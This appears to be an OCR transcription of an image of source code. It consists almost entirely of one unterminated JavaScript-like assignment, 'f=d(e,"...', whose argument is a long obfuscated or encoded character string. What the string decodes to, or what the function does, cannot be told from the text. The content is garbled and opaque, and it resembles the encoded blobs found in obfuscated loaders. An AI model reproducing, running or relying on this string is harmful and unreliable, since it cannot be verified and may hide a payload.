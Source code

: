 f=d(e,"&S^IcDum<-%5bK1_DD-<ucI(__K<-cuf^bc^II_-b%c<c<^D%b-b<KuIS__mbu<c K55-?D6Sb1<Nm1D51<1c-^^KA5%mDc-^;15cmS-Kb%<mc<ImcI-S<bI5Ju-cuScu_cI(cK,-b5b-KuKIS1DbD-IucISh^bD^___bc-2Dbu-udI^_D5_<buc5_%SDc^C1bpD_I5_<%I5S-1I%5u5D<^^1D5um5DI_c1S%<mccSSu5D5c<wc%%mmDIbi<Kc1uK1--mSID-_mSIcUQbbV_KI%^umI58cbS<_DKbm%SDb^<_cS^_Sb<-oD-S_1-b<<DD+w5_<5_<1c-S51Dc_^u1c5xmb-<<,cS^DKK5uu^cSSD1I5umDcu35mIcUk<Kc%O5<--mmcc-_mLIcV.bb1SK^%ImL^-i^bI-S_5b<-}Db^<c<^Dlcbb^m_<5b<<Dcu^S__%5m%mDWI<1c<IDDS<1c5dbSba<<D^qKbb%KmKcS%5-IcnvbK<_m1c-Km%c<bv5%-Km5_f1Ib-%SuD1b_I5u-DurIm5c%I-cD-Iu_S5_-bD-I^1-D5^%_w5b<<%<<Duc^b1-b^S_FK5c<vcbu_cbS-K_5MIcDIS<1m5<ItDISm1-%bmE_<SKK_5S^<csT-Km-K^cccN5<<%cub^KSS<c--u%8m-mmy^b_<bcK^bD-uD<^S11bc<-IuIS_u5m-cDD^m_^DIIF1<5c<Z-D<5IcS_1D5u<<IIS<1m5<DS^%!-1S%DmmcSGDK1I_SQKc%fub<mm^S-k%K1%Iu5IS-5ubIa_bb<KubS<_uIIc_S5_-I_mb%<bD<^ccIIJ1-bu-cDS^%b5bD<D155m<7cbS<IKSD1_c5S<1?%bm<%5mSc-EKmcca}bK<%cm?IbcuSc%ImII<ycK61_bK%<cII5J%b-IIXmb<-cu(mbumI5_Db1mmu-Ic_bbK-<_Ib<<<Dc^zI^^%1K5D<%cb^/_--%u<^m^Im_D^Sc1p%b55%bm-c</b5D%cmvIKq<mIcSY<Kc%a5D-bm9IDsnu5c^=qbb-<%%--u%^bK%b--1u5I<KIbc-SuX^c<_u<^c_F5bK/b-<KcK^u_I5-<PI%^I1_b?u<cD^^_Xc5SK18%bm<<mm<IKS%KD%I<wIKSumIc<3<Kc%MbI--uKcc1^Km%ucIIc7SKz-c__b5-cue^buu^-3mD_^b_cb*<b%_<DD-Iv<5Dm^j1b5<Km5D-j155b<>cbS<^%S-1%5S<mc<SSKbcm^mKb%<mc5^u1D6kD1I%_uKc<(-K)m^II__b1%Su<IDv:b1-<uSIc_b-muD^b_<bc1IbS-bu-Iy<bD<^c_f5b<<Dcuu^b55<_D/Sb1<{k1_%_m-DpA>1<%-<KcDS1m5DuSsKb%<bS%S<c_<ScK_%Dmuc<SI<b%%u-IS__KV--ucb_%lucI:_b_^K<5^mDcuF_1I<u^<_cbh<bD<^c_#bcb<Dmcm1b5<<c%c<cDS^m%L5^<SDXSD-b5_mDDIbb1<5um_Dd4KKm5cmSIbbc1m%DmbIbbe5-%mmII11_bK-m^n^^b5umI-_bb<-c%K<KmkSc__bD-uu<II<_m7^c_A5bb_5--cIb^%_Ib:<SD%^<_-<_<)cDS11I%Km<IISDK_5^mSc<%5mKc6YbK<_m1+-Ku5I-SIKc%SmcKI%=u<Ic=/SD_5KI-1__b5-cuz^bcJS-KcD_^%_cbP<b%b<-_IbI<<Dc^sIhSK_mbc<1Dm^K<Ic1S<1c5l_S5<Sm1-%bm<ccm5cS^S1m%Im1cSSc1cI_S!Kc%Yub<5u-ccSQKS%^umI_-5m%IE_bb<Kmb<<Ku%^D_IK+<Kuu1dK_bc-IucKbb55b<SD%S_1-b^S_1-5c<Gcb<I1m5mmbc<ScIWS<K-5KmDc1S5mmcDZbK<%c5<%Smcc;0_u_cRHcKR-bKb%Iu1cS!Dbu-Du1b5-muk^b_<S%_Sb<^5_KbO<bD<mcDbSK.S5--^II^K1KDpc_S51m5Im_c55m1_mb1^%Km-cDSSKK_-S5%5m-ce.bK<1u1D%<mDID%Im-I<QcKt_55<-Dcb^u1^bu%mc_Ic_KK^%q_5b_-qDb^<cDID_Sb5-<SY=I_Sb%<DD155<uDWSb1<J^1_c_Sb1c53mb5_<IcSScm5c5SMKb%<5u5D<OcbSIK1uKj5Kb%nubI<cKcI1<Km-DucIS_bumDK_bb<-c%^D_I%_m1m-Pm<^c1OKDbu<%D-^%_Sb<<DBb:5_<5S-ED5Kc_bubuD^DM<-b-<uI^-_%bb-mI3^11K5D<IDcSK1<-YI_SIKc%rubm5ubISS7%--<mu^KYubm-D__bK-cuh^bu5Ic_SKI-u_mbD<bD<^ccuSK_cb-<D1_bD<cDlSbIISD1K5DD5cbSS_a<bm-cb2K_ScmS<Kb%<mc<1uKcD9-K5%Du-c^%Im<I<4cKG1%b-%SuDImqSbD-1c_Iw_KKf^___bc-dDbm<ud^S1_5KuKDc5_<KDc^g1b_bKu--u%II5m<<cbS<1c_c_S5%mDDcSD1m5^SI15%<mccdujc%S-K1%mm5_c_55^%Km<cDR1bK-SrIKD-<ucI*DG^KpbKcm<D-^u_Db<^5_bbE<bD<mmDI^1_Sbc-cDS^%<mmmSb1<5cKm5cmKD^Ki_D5m<-t>Sp1%%Km1cmb<KK5c^bcSS^KI%1uKIDSIKS%5^cc-O5KK%u^LIbEmK5-Du11--cuR^b_<bc-qDbS<IIbI-1D<^c_v___k5D-^cKS5_<5D<1^bS-1b%K-SI<S-1-%KSm1b%bm<ccD%c5SS1^u8D_IKSu1u%Sm%_D%ImDI<GcK(1^5%m-cD^l1%%KmSc<b5-muR^b_<^_n-b_^5_-bE<bD<u_D_^1_Sb^^I115<<cD DIS15m<-cbS<1c_D1<%bm-D^bbbI%Dm-K_5_mccqnbS5wbKS%%u_I-b8%_%ouDc^_Kb5%<uDI15<5m-bu5Ibym-_^b_<bc-vDb^<_c1cbbD5Ic_G5b<<%m<DD%SbK^5_-tDSS%1-%_m-D<S-155uSm1D%bm<ccuccDSb1k%D*_Kb%cmAIbD%IDPIKSI5)bK3-bu<mmuSI<8cbu-SD_II-muu^b_<bcK^b5-bu<^__-D5Iu_75b<<%5<SDD^bK<5-<-cKWm1b55<b^mS<KK5um5cD%_m5ccS+KbP%KD%cE_1^%cmwIbD5c<FS10<<mII-#%Kb%m6IK^-<ucIpc^ISCbb--%D_bm-mDb^<_cUI_c5--<ImIS_SDm^51b5<<c%2<<c-^K1D51D-c<Sc1S%bSc1 %bm<ccSMKb%<mccISxK<%cmF<_mSI<qDu_Ib4cK6-bKb-DmIIm-5u-I7_bb<CcK^-DuuI<-3<_D5^m_I5_<5wm^_5_-uDc^:1b_51b5S<1c-Sm_c5S<%^DSc1h%Km<1I5Im<ccSoS_Sm1^%1mSI5S<mlIb!<Kc%BubI<S<Sk-_uKIcJBbbKbKI--u%^_-muc^b_<bcK5-KmDIKbI-uD<^c_t3^_Sbu<DI_SK_ubu<SD%5m-FcbS<1c_^%_<%cmIm1#b<mcIY^DSuK%u;u^+-bcmIcwt<Kc%e1I--uKcc-bb1-%uuI^_1b%SuI5b<-cu:^b_<bc-Nmcu<_mb5<bD<^cc^^S_DbI-cDS_K_%5D<%Db5m<ucbS<1c_<1D%bm<cDS%m5c<S8Kb%<5m%<uKcb%mmbIbe<Kc_mbK%Sm<^ckDKD--Dc^Kqcb_IIl^b<-cu>m<D-^uBubS-c_cD%^D_S5K<-DDcS-I^I_S5<<cD <bc5SD1b5<S51%53mbc<u c_?KKb%-mcKb%<mcc?nbK<%cDYm5=5KK%vubI<D^ISM-bK-_DII<wmK<IIsSb<-cu;m_ub^D9cb_^5_bb/<bD<m=D_SK1b5K<1DIK-<mDISb1<5cbb%^uc1c5:mbc<5DS1^II<<DKSK1%<mcc91IK<%cmRIK9<Kc%wm1DIkcK.-bu1Ic{Obb%%m1I6_bb<K<uv^b_<1%%*Db^<_cbu<bD-^cS_5b<buD^w1b5<<%D,SK1<5cb-cbS<1c5Smbc<Sc_^w1m<ccSYSc%<mcc+I^bS%cmPIb5bKu%Sub-IJcKc%Ku<IcCt<k-%uDI}R1^%-cu0^bSSbc-wDbc<mabz<bD<^c_4+D<<DcI<1b5<<cD^Sb1%5c<uuIS<1c5